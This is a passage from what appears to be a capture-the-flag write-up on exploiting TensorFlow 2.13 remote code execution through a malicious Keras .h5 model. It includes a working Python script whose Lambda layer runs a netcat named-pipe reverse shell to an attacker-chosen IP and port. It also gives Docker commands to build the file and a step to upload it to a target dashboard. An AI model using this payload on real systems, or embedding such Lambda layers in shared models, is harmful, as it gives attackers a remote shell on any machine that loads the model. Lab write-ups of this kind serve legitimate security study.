 
We can find that this uses `tensorflow-cpu 2.13.1`, if we search for rce regarding TensorFlow, we can check this:


BLOG: https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

Let's begin exploitation to reproduce the steps.


# EXPLOITATION
---

Based on the article, we can do this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250627151445.png)

So, we need to create a `.h5` file with the following script in order to import the os library to achieve the RCE:

```PYTHON
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc IP 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

In order for the script to work, we need to build the image, we got the requirements and the dockerfile so we can do this on the same directory:

If you don't have docker installed on kali, you can do:

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable --now docker
```

Once it downloads, we can execute the exploit with:

```python
docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 exploit.py
```

Now, we will get our `exploit.h5` file which we can upload on the dashboard:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250627154846.png)
